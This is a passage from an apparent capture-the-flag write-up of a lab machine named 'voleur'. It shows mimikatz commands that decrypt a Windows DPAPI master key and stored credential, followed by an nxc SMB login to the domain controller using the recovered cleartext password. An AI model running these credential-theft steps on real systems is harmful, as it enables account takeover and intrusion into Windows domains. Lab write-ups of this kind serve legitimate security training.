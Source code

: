 ```bash
mimikatz dpapi::masterkey /in:"C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88" /rpc
```

![alt text](../assets/images/voleur25.png)

anddd lets decyrpt it

```bash
mimikatz dpapi::cred /in:"C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3" /masterkey:d2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

![alt text](../assets/images/voleur26.png)

and we got new creds

```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u jeremy.combs -p 'qT3V9pLXyN7W4m' -k 
SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\jeremy.combs:qT3V9pLXyN7W4m 
```

